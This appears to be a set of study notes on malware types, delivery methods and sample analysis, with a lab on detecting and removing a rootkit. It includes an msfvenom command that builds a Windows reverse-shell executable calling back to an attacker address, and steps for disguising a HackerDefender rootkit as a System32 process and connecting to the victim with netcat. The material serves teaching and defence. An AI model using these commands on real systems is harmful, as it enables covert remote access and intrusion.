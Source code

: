 # Malware Threats

1. What is malware
2. Malware delivery
3. Analyze and classify malware

## 1. Malware

* Virus
* Worm
* Trojan
* Hybrid
* Ransomware
* Fileless
* Adware
* Spyware

### Virus

* Host
* User interaction

### Worm

* Self-propagate
* Examples
  * Self-propagate
  * SQL Slammer
  * ILoveYou
  * MS Blaster
  * Stuxnet

### Trojan

* User interaction
* Email or websites
* Fake antivirus/updates pop ups

### Hybrid

Combine different types into a hybrid type.

* Bots

### Ransomware

* Encrypt data
* Examples
  * WannaCry
  * Locky

### Fileless

* Running malware at the memory level instead of file level
* Registry keys
* Scheduled tasks
* APIs
* >50%

### Adware

* Ads
* Browser
* Freeware

### Spyware

* Covert monitoring
* Harvest browsing information
* Stealing Credentials
* Screen capture
* Capture email data

## 2. Malware Delivery

* Malvertising
* Phishing
* Removable devices (usb)
* Insider Threat

### Malvertising

* Drive-by downloads that execute code without user interaction
* Common in news portals

### Phishing

* Attacker uses fraudulent communication (such as emails) to lure victim into running malicious software or providing confidential information.
* Message is made to look as though it comes from a trusted sender.

## 3. Analyze and Classify

### Static analysis with Kali Linux

Suppose you are given samples from email attachments.

1. Emulate the malicious file.

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse-tcp LHOST=192.168.0.100 LPORT=433 -f exe -o maliciousfile.exe
```

2. Using _Binwalk_ we will performed an automated analysis by _scanning for common signatures_.

```
binwalk -B maliciousfile.exe    // static analysis
binwalk -3 maliciousfile.exe    // 3D analysis
binwalk -A maliciousfile.exe    // Find commonly used No Operation Opcodes (NOP) used in exploits to land shellcode.
```

3. Using _Exiftool_ we can produce similar information.

```
exiftool maliciousfile.exe
```

4. Hash file with _MD5Deep_ and add this to your analysis report for future references.

```
md5deep maliciousfile.exe
```

### RootKit discovering with Windows

We can use the _Rootkit Revealer Tool_.

1. Place a rootkit, you can use a simple rootkit such as _HackerDefender_ from _carnal0wnage_, let's run `cmd` and the following commands.

```
tasklist                    // list processes & choose a process to mimic, we will use some similar name
netstat -an                 // find currently open ports, pick one next to the legitimate ones already open
cd "C:\Windows\System32"    // change directory to the rootkit, so it looks like a legitimate system file
rename <rootkey EXE> <fake_process_name>.exe
rename <rootkey INI> <fake_process_name>.ini
```

2. Make sure rootkey is properly configured (`.ini` file) with fake process name, ports and settings and load initializatio nfile into memory.

```
<fake_process_name>.ini -:refresh
```

3. Run rootkit

```
./<fake_process_name>.exe
```

4. Now lunch _Rootkit Revealer_ and scan. You should discover your rootkit if using well known files such as _HackerDefender_ example.

#### Rootkit exploitation example

If you were happen to use _HackerDefender_ rootkit, you would be able to connect with _Netcat_ to victim.

```
netcat <target_ip> <open_port>
hostname // verify connection
```

#### Remediation

1. Find suspicious processes with _Rootkit Revealer_ and `cmd` -> `tasklist`.
2. Stop suspicious process with `taskkill /F /pid <PID#>`.
3. Confirm suspicious service in `services.msc`.
4. Delete suspicious service `sc delete <service name>`.
5. Using registry information from _Rootkit Revelear_, find those keys in `regedit` and delete everything you can.
6. Verify RootKit removal running scans again.
